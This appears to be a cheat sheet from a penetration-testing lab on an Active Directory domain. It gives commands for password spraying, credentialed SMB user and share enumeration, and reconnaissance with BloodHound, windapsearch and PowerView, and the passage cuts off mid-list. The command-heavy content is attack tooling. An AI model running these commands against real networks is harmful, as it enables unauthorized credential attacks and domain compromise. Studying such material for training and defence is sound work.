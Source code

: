 `Import-Module .\DomainPasswordSpray.ps1`

Performs a password spraying attack and outputs (-OutFile) the results to a specified file (`spray_success`) from a Windows-based host.

`Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue`

Authenticates with a Windows target over `smb` using valid credentials and attempts to discover more users (`--users`) in a target Windows domain. Performed from a Linux-based host.

`sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --users`

Authenticates with a Windows target over `smb` using valid credentials and attempts to discover any smb shares (`--shares`). Performed from a Linux-based host.

`sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --shares`

Enumerates the target Windows domain using valid credentials and performs a recursive listing (`-R`) of the specified share (`SYSVOL`) and only outputs a list of directories (`--dir-only`) in the share. Performed from a Linux-based host.

`smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5 -R SYSVOL --dir-only`

Discovers user accounts in a target Windows domain and their associated relative identifiers (`rid`). Performed from a Linux-based host.

`rpcclient $> enumdomusers`

Used to perform a recursive search (`-PU`) for users with nested permissions using valid credentials. Performed from a Linux-based host.

`python3 windapsearch.py --dc-ip 172.16.5.5 -u inlanefreight\wley -p transporter@4 -PU`

Executes the python implementation of BloodHound (`bloodhound.py`) with valid credentials and specifies a name server (`-ns`) and target Windows domain (`inlanefreight.local`) as well as runs all checks (`-c all`). Runs using valid credentials. Performed from a Linux-based host.

`sudo bloodhound-python -u 'forend' -p 'Klmcargo2' -ns 172.16.5.5 -d inlanefreight.local -c all`


Loads the `Active Directory` PowerShell module from a Windows-based host.

`Import-Module ActiveDirectory`

PowerShell cmd-let used to gather Windows domain information from a Windows-based host.

`Get-ADDomain`

PowerView script used tol return the AD object for the current (or specified) domain. Performed from a Windows-based host.

`Get-Domain`

PowerView script used to return a list of the target domain controllers for the specified target domain. Performed from a Windows-based host.

`Get-DomainController`

PowerView script used to find object `ACLs` in the domain with modification rights set to non-built in objects. Performed from a Windows-based host.

